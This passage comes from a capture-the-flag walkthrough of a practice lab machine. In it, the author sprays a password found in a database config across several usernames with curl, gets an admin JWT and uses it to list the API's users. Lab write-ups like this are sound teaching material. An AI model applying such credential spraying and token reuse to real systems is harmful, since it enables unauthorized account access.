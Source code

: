 That likely means I’ve got the right parameters.

#### Get Token

I’ve got a handful of usernames from the box so far, as well as one password from the database config. I’ll try the password from the config with various usernames, and eventually find one that works:

```

root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"root","password":"Zk6heYCyv6ZE9Xcg"}'
Forbidden
root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"chihiro","password":"Zk6heYCyv6ZE9Xcg"}'
Forbidden
root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"derry","password":"Zk6heYCyv6ZE9Xcg"}'
Forbidden
root@kali# curl http://10.10.10.137:3000/login -H "Content-Type: application/json" -d '{"username":"admin","password":"Zk6heYCyv6ZE9Xcg"}'
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MTU5OTk3LCJleHAiOjE1NTkyNDYzOTd9.a5kDgyES1Ot7qRzArdz2ehnvANv9yYdzZczG5EIISRs"}

```

With username admin it returned a token! I can use [jwt.io](https://jwt.io) to decode it:

![1559161097950](https://0xdfimages.gitlab.io/img/1559161097950.png)

#### user API

Now that I have a token, I can try to use it. Based on the error message thus far, I suspect that [this code](https://gist.github.com/narenaryan/4d03bb4ccda5bb634a3cb5c51f5e79a7) is what’s being used to validiate API requests. If that’s true, I need to put the token into a header named either `x-access-token` or `authorization`.

When I do that, I get back users (without piped in `jq` for readability):

```

root@kali# curl -s http://10.10.10.137:3000/users -H "authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY4MzYwNDk0LCJleHAiOjE1Njg0NDY4OTR9.3hVk0ASf7R
fGtwbnAerIRY1V6n5TWjrETlBqg7KkCtQ" | jq .
[
  {
    "ID": "1",
    "name": "Admin",
    "Role": "Superuser"
  },
  {
    "ID": "2",
    "name": "Derry",
    "Role": "Web Admin"
  },
  {
    "ID": "3",
    "name": "Yuri",
    "Role": "Beta Tester"
  },
  {
    "ID": "4",
    "name": "Dory",
    "Role": "Supporter"
  }
]
```